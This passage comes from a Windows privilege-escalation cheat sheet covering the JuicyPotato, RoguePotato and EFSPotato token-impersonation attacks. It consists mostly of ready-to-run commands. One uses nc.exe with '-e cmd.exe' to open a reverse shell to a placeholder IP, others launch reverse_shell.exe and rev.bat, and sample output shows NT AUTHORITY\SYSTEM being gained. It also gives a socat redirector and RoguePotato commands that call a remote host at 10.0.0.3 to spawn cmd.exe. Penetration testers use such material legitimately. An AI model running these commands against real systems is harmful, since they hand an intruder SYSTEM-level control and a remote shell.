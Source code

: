     * [Windows 7 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows_7_Enterprise) 
    * [Windows 8.1 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows_8.1_Enterprise)
    * [Windows 10 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows_10_Enterprise)
    * [Windows 10 Professional](https://ohpe.it/juicy-potato/CLSID/Windows_10_Pro)
    * [Windows Server 2008 R2 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows_Server_2008_R2_Enterprise) 
    * [Windows Server 2012 Datacenter](https://ohpe.it/juicy-potato/CLSID/Windows_Server_2012_Datacenter)
    * [Windows Server 2016 Standard](https://ohpe.it/juicy-potato/CLSID/Windows_Server_2016_Standard) 

3. Execute JuicyPotato to run a privileged command.

    ```powershell
    JuicyPotato.exe -l 9999 -p c:\interpub\wwwroot\upload\nc.exe -a "IP PORT -e cmd.exe" -t t -c {B91D5831-B1BD-4608-8198-D72E155020F7}
    JuicyPotato.exe -l 1340 -p C:\users\User\rev.bat -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
    JuicyPotato.exe -l 1337 -p c:\Windows\System32\cmd.exe -t * -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4} -a "/c c:\users\User\reverse_shell.exe"
        Testing {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4} 1337
        ......
        [+] authresult 0
        {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4};NT AUTHORITY\SYSTEM
        [+] CreateProcessWithTokenW OK
    ```

### Rogue Potato (Fake OXID Resolver)

* Binary available at https://github.com/antonioCoco/RoguePotato

```powershell
# Network redirector / port forwarder to run on your remote machine, must use port 135 as src port
socat tcp-listen:135,reuseaddr,fork tcp:10.0.0.3:9999

# RoguePotato without running RogueOxidResolver locally. You should run the RogueOxidResolver.exe on your remote machine. 
# Use this if you have fw restrictions.
RoguePotato.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe"

# RoguePotato all in one with RogueOxidResolver running locally on port 9999
RoguePotato.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe" -l 9999

#RoguePotato all in one with RogueOxidResolver running locally on port 9999 and specific clsid and custom pipename
RoguePotato.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe" -l 9999 -c "{6d8ff8e1-730d-11d4-bf42-00b0d0118b56}" -p splintercode
```

### EFSPotato (MS-EFSR EfsRpcOpenFileRaw)

* Binary available at https://github.com/zcgonvh/EfsPotato

```powershell
# .NET 4.x
csc EfsPotato.cs
csc /platform:x86 EfsPotato.cs

# .NET 2.0/3.5
C:\Windows\Microsoft.Net\Framework\V3.5\csc.exe EfsPotato.cs
C:\Windows\Microsoft.Net\Framework\V3.5\csc.exe /platform:x86 EfsPotato.cs
```
